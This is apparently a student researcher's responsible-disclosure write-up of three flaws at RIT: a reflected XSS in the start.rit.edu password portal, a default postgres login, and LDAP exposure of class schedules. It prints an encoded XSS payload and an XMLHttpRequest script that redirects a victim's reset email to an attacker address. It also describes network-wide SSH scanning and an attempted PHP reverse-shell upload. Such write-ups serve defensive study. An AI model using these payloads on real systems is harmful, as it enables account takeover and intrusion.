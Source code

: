 # How I Gained Access to RIT Student Accounts via XSS (2023)

As a cybersecurity student at RIT, I spent some time testing the security of our university systems.

This post is a writeup of three vulnerabilities I found:

1. A reflected XSS vulnerability in RIT's password reset portal, `start.rit.edu`, that enabled one click account takeover
2. A postgres database with default credentials, accessible by any RIT account
3. An LDAP information disclosure issue that allowed read access to student schedules by any RIT account

All findings were responsibly disclosed to RIT. Thank you to the RIT security team for responding quickly, and taking these issues seriously.

---

## XSS in start.rit.edu and Account Takeover

`start.rit.edu` is a critical internal app at RIT used to manage:

* SSH shell access
* Password resets
* External email settings
* Account details

![image](https://github.com/user-attachments/assets/fce72fb4-b19c-4cbe-9f61-bead68b4bac8)


While exploring the site, I found it was highly verbose in its error messages. Although not visible to the user, the site HTML contained full exception traces with file paths and class names. These stack traces offered insight into how backend logic and input validation were structured.

Example stack trace hidden in HTML:

```
Stack trace:
#0 /opt/claws/www/lib/Controller.php(36): InputValidator::sanitizeArray(Array, Array)
#1 /opt/claws/www/public/dispatch.php(229): Controller->sanitize()\n#2 {main}
```

Claws appears to be the internal name of the project that powers `start.rit.edu`, and is also used by RIT Administrators to manage accounts and services.

### The Vulnerability

Eventually, I discovered that if you submitted a request with an unexpected query parameter name, the server reflected the parameter name in an error message without proper encoding.

```
FATAL CLAWS CONDITION: filter not defined for parameter_name<, child of .
```

It appeared that the server was iterating through parameter names, filtering parameter values based on parameter names. When a parameter name was unknown, the access of `filter` wasn't defined and an error was thrown, including the unknown arbitary parameter name.

This meant I could inject JavaScript via the **parameter name** (not parameter value). For example:

```html
start.rit.edu/.../index?<script>eval("\x61\x6c\x65\x72\x74(\"HI\")")</script>=b
```

The payload above is hex-encoded since parameter names with spaces or semicolons were not accepted.

Because the server didn't use a Content Security Policy (CSP), the injected JavaScript executed immediately. 

![image](https://github.com/user-attachments/assets/cf73628a-b510-41e0-ab07-638dd5a32cfd)


### Achieving Account Takeover

Since this was the same portal used for **password resets**, the next step was figuring out how to abuse the XSS to change another user’s reset email address.

After figuring out how their API worked I created a payload that:

1. Used `XMLHttpRequest` to create a `MailPreference` handler
2. Parsed the response to get the form’s submission endpoint.
3. Used `XMLHttpRequest` again to submit a POST request to change the users password reset email

```js
var xhr1 = new XMLHttpRequest();
xhr1.open( "GET", "https://start.rit.edu/MailPreference", false );
xhr1.send( null );
...
// Parse out the handler number
...
var xhr2 = new XMLHttpRequest();
xhr2.open("POST", handler_number, true);
xhr2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded; charset=UTF-8');
xhr2.send("server_select=GOOGLE&RITEDUMAILFORWARD=&RITEDUVANITYNAME=&PUBLISH_SELECT=OFFICIAL&EMAIL=attacker_email%40gmail.com&submit=");
```

### Delivering the Exploit

The full payload was hex-encoded and injected via a parameter name in a URL like:

```
https://start.rit.edu/Me?%3Cscript%3Eeval(%22\x76\x61\x72\x20...</script>=b
```

This link could be sent in a phishing link or embedded in an attacker page.

If the user clicked the link, they would be asked to login if they hadn't already. The login would be through the official RIT SSO, which is typical for many RIT sites. 

Once the user logged in, their session cookie and auto-filled credentials would allow the payload to run.

After the external email was changed, an attacker could reset the victim’s password using the standard flow.

(RIT patched the issue within two days of disclosure.)

---

## RIT archive (default postgres credentials)

Given that RIT setup servers using LDAP, I thought it might be possible for servers to be misconfigured to allow logins for any RIT account (including students).

In order to find any RIT server that might allow student SSH access, I used nmap to scan the entire class B network range at RIT for port 22.

Once I had a list of servers that had port 22 open, I built a custom tool with libssh that would attempt to login with my own credentials. It would then run a few commmands and log the results (`hostname`, `uname -a`, `ls /`, `ls /home/`, etc.)

(After running this against the RIT network, I changed my password in case any honeypot was logging SSH credentials.)  

### SSH access

Collecting the results, I found that 16 servers allowed SSH access with my student credentials. Some of these were unimportant, since they were servers setup for students to complete or upload work, or test servers not running any real services.

Some servers had network mounted storage for university research, but the contents were set to non-readable.

Only a few cases had any real significance, one of which was `digitalarchive.rit.edu`, which had a postgres database exposed internally.

### Digital Archive

Using the `postgres` command I was able to login with credentials `postgres/postgres`. This gave me read/write access to the Digital Archive database.

To verify I had access to the actual site, I created an account and added myself to the "Faculty Senate Minutes" group. I also viewed a small number of database entries.

A very small number of users had password hashes stored in the database. These appeared to be for users external to RIT who could not go through the typical SSO.

### Attempting File Upload attack

The database also included what extensions were allowed to be uploaded per user. By default, users were only allowed PNG, PDF, and a few other formats.

I attempted to gain execution as the main site user by allowing my account to upload arbitary files, and uploading a PHP reverse shell. However the upload directory did not allow execution of scripts.

## LDAP Group Information Disclosure

Some RIT servers are limited to particular classes/majors. For example, `nitron` is only for students taking courses in Software Engineering. Since RIT’s SSH servers use LDAP for authentication, I wondered if they used LDAP groups to store students majors/schedules.

Group membership data is available via the `id` and `getent` commands.

Example output:

```bash
id uid=62744(sjf5462) gid=5003(student) groups=5003(student),...(rit-section-current-csec-559-02-s)...
```

Included in the group list are:

* Course groups (e.g. `rit-course-current-csci-462` which is RIT cryptography)
* Course section groups (e.g. `rit-section-current-phil-102-04` the exact section you are in)
* Discipline affiliations and miscellaneous internal groups

After asking a friend if he was okay with me testing this against his account, I verified that I could see his entire class schedule. To make clear, this kind of access was **not normally available** through standard AD credentials, but was possible in Linux due to how RIT’s servers used a high-privilege AD account for NSS lookups.

Using the `getent` command I could also look up what users were in a given group. This information could be used to:

* Identify students in particular classes or class sections
* Identify users working on internal tools
* Identify users where in certain departments

---

### Conclusion

Thanks once again to the  RIT Information Security team for their professionalism and responsiveness throughout the disclosure process. I'm grateful for their collaboration and for fostering an environment where responsible security research is valued.
